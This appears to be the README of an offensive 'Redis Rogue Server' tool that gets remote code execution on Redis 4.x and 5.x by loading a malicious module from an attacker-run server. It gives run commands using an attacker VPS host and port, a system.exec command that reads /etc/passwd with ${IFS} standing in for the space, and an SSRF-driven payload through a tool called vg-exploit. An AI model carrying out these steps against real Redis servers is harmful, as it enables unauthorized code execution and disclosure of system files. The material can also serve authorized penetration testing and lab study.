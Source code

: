 # Redis Rogue Server

A exploit for Redis 4.x and 5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).
Needs to be started before running the RCE redis exploit with vg-exploit as it contains the exec module.

## Usage:

Compile .so from <https://github.com/n0b0dyCN/RedisModules-ExecuteCommand>.

Copy the .so file to same folder with `redis-rogue-server.py`.

Run the rogue server:

```
python3 redis-rogue-server.py --lhost <vps address> --lport <vps port>
```

The default target port is 6379 and the default vps port is 6666.

The rogue server will put the exp.so on the Redis server and make code execution available like this:

```
$ redis-cli
127.0.0.1:6379> system.exec cat${IFS}/etc/passwd
# will print /etc/passwd from redis host
```

This makes it possible to execute commands via SSRF:
```
vg-exploit redis --target=localhost:3000 --redis-host=localhost:6379 redis_payloads/rce.txt 
```
This will create a new file on the Redis host as proof that RCE worked.
Reverse shell would be nice from there but didn't manage to make it all work.
